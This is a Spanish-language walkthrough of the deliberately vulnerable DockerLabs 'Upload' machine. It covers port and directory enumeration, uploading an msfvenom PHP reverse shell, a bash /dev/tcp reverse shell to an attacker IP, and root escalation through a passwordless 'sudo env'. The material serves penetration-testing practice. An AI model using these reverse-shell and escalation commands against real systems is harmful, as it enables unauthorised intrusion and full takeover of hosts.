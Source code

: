 ```yaml
---
layout: single
title: Upload - DockerLabs
excerpt: "Maquina Linux vulnerada mediante una reverse shell subieno un archivo al servidor"
date: 2024-05-18
classes: wide
header:
  teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Reverse Shell
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar reverse shell y escalar privilegios mediante el uso de binarios

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que solo está abierto el puerto 80, con esto sabemos que corre el servicio Apache en dicho puerto

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:37 -03
Nmap scan report for 172.17.0.2
Host is up (0.000011s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.49 seconds
```

Procedemos a investigar en el navegador colocando la siguiente url `http://172.17.0.2`

![url](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/001Upload.png)

Se puede observar que es una pagina para subir archivos, por lo tanto se intuye que el vector de ataque podría ser mediante una reverse shell en php, procedo a crear el archivo malicioso con la herramienta msfvenom

```bash
msfvenom -p php/reverse_php LHOST=192.168.0.200 LPORT=8081 -f raw > pwned.php
```

| Parametro | Descripción                                |
| --------- | ------------------------------------------ |
| -p        | tipo de payload                            |
| LHOST     | IP de la maquina atacante                  |
| LPORT     | Puerto a la escucha de la maquina atacante |
| -f        | formato de salida                          |

Procedo a subir el payload, me indica que el archivo se subió correctamente.

![payload](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/002Upload.png)

Ahora debo buscar donde se guardó el archivo pwned.php, por lo tanto procedo a realizar un fuzzing web con la herramienta gobuster

```bash
gobuster -n 404 -t 64 dir -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlist/directoyry-list-lowercase-2.3-medium.txt -x txt,py,sh,php,html
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py,sh
[+] No status:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                [Size: 275]
/.php                 [Size: 275]
/uploads              [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           [Size: 1357]
/index.html           [Size: 1361]
/.html                [Size: 275]
/.php                 [Size: 275]
/server-status        [Size: 275]
Progress: 1245858 / 1245864 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo el resultado queda al descubierto el directorio uploads procedo a ingresar la siguiente url `http://172.17.0.2/uploads`

![uploads](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/003Upload.png)

Al ingresar se observa el archivo que había subido con anterioridad pwned.php

# 2- Intrusión

procedo a ponerme a la escucha en mi maquina atacante con netcat por el puerto `8081` con dicho puerto configuré el payload anteriormente

```bash
nc -nlvp 8081
```

Ahora doy click en el archivo pwned.php, el navegador se va a quedar como si estuviera cargando es buena señal

![pwned](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/004Upload.png)

me fijo en la consola de mi maquina atacante y puedo ver que realizó la conexión con éxito ejecuto el comando `whoami` y me devuelve el usuario `www-data` intrusión realizada!

![www-data](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/005Upload.png)

## Nota:

El payload en msfvenom suele ser inestable y luego de un tiempo se cae la conexión por lo tanto es recomendable abrir otra terminal y ponerse a la escucha con un puerto diferente en la maquina donde ya tenemos la intrusión

```bash
nc -nlvp 4443
```

ahora se procede a enviar la reverse shell para eso se debe ir la pagina web [revshell.com](https://www.revshells.com/) y copiar el siguiente comando

```bash
bash -c "sh -i >& /dev/tcp/192.168.0.200/4443 0>&1"
```

con esto se va adquirir una nueva shell mas estable

## Tratamiento de la TTY

Antes de realizar la escalada de privilegios voy hacer el tratamiento de tty para poder estabilizar la shell

```bash
script /dev/null -c bash
```

presionamos ctrl + z

```bash
stty raw -echo; fg
```

luego escribimos

```bash
reset xterm
```

nota: es posible que no muestre en pantalla lo que estamos tecleando

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

# 3- Escalada de privilegios

Ya con la bash mas estable es momento de escalar privilegios a root para ellos voy a ejecutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![tty](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/006Upload.png)

En este caso se observa que se puede ejecutar el binario `/usr/bin/env` como el usuario **root**, sin proporcionar contraseña. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

![binario](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/007Upload.png)

ejecutamos el comando

```bash
sudo env /bin/sh
```

Listo! se logró escalar privilegios al usuario root

![root](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/008Upload.png)
